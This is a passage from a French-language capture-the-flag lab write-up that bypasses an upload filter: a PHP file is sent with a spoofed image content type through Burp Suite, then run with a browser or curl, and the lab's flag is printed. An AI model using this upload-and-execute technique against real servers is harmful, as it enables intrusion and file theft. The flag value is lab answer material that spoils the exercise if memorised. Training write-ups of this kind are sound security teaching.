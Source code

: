 ```http
POST /api/task1/ HTTP/1.1
Host: test-s3.web0x05.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://test-s3.web0x05.hbtn/task1
Content-Type: multipart/form-data; boundary=---------------------------372773235834417249173309245902
Content-Length: 240
Origin: http://test-s3.web0x05.hbtn
Connection: keep-alive

-----------------------------372773235834417249173309245902
Content-Disposition: form-data; name="file"; filename="payload.php"
Content-Type: image/png

<?php readfile('FLAG_1.txt') ?>
-----------------------------372773235834417249173309245902--
```

#### Étape 6 : Envoi de la requête modifiée

1. Cliquer sur **Forward** dans Burp Suite
2. Désactiver l'interception : **"Intercept is off"**

#### Étape 7 : Vérification de l'upload

1. Retourner sur la page `http://test-s3.web0x05.hbtn/task1`
2. Observer que `payload.php` a été uploadé avec succès
3. Copier le lien du fichier uploadé (bouton "copy link")

#### Étape 8 : Exécution du payload et récupération du flag

**Méthode 1 : Via navigateur**
```
http://test-s3.web0x05.hbtn/static/upload/payload.php
```

**Méthode 2 : Via curl**
```bash
curl http://test-s3.web0x05.hbtn/static/upload/payload.php
```

### Résultat

**FLAG récupéré** : `1d38ded926706bc96695b2ec52263bfd`

**Fichier de sortie** : [1-flag.txt](1-flag.txt)

```
1d38ded926706bc96695b2ec52263bfd
```

---
